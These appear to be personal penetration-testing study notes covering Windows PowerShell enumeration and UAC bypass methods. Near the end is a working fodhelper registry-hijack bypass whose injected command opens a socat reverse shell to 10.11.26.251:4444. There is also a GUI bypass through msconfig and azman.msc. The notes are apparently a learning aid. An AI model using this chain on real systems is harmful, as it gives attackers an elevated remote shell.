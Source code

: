 #### Enumeration
- COMMAND | get-member
- Get-LocalUser = show users
  - Where-Object {$_.SID -match 'S-1-5-21-1394777289-3961777894-1791813945-501'}
  - Get-LocalUser | Select-Object -Property Name,Enabled,SID
  - Get-LocalUser | Where-Object {$_.PasswordRequired -match 'False' } | measure-object
  
- Get-Localgroup
- Network
  - get-NetIPAddress
  - Get-NetTCPConnection 
  - Test-NetConnection
  - Invoke-WebRequest
    - curl in powershell
    - Remove-Item alias:curl = to use curl and not invoke
- Patches
  - Get-HotFix
- Scheduled-Task
  - Get-ScheduledTask
- Owner
  - Get-Acl

## Bypass User Account Control (UAC)
- New Process are runned as non-privileged-account
- Tokens
  - Normal user: 1
  - Admin: filtered (norma actions) + elevated (admin actions)
- Bypass ==> goint to elevated to IL (integrity level) high
- References
- [UAC git repository](https://github.com/hfiref0x/UACME)
- [Bypassing UAC](https://www.bleepingcomputer.com/news/security/bypassing-windows-10-uac-with-mock-folders-and-dll-hijacking/)
- [Way around UAC](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)


[**Automated bypass**](https://github.com/hfiref0x/UACME)

### GUI bypass
- **msconfig** RUNS with IL high
    - shell from msconfing = high
- **azman.msc** ==> help ==> view source = open ==> all files

### Auto Elevating
- manifest ==> autoElevate (on/off)
- Change default programm execution in HKEY_Current_USer
  
```
# Define standard application
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

# Link the application to attacker programm
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.26.251:4444 EXEC:cmd.exe,pipes"

# Make the system used our choue
reg add %REG_KEY% /v "DelegateExecute" /d "" /f

# Add the created command as preference
reg add %REG_KEY% /d %CMD% /f

# execute fodhelper.exe

### After Windows Defender

```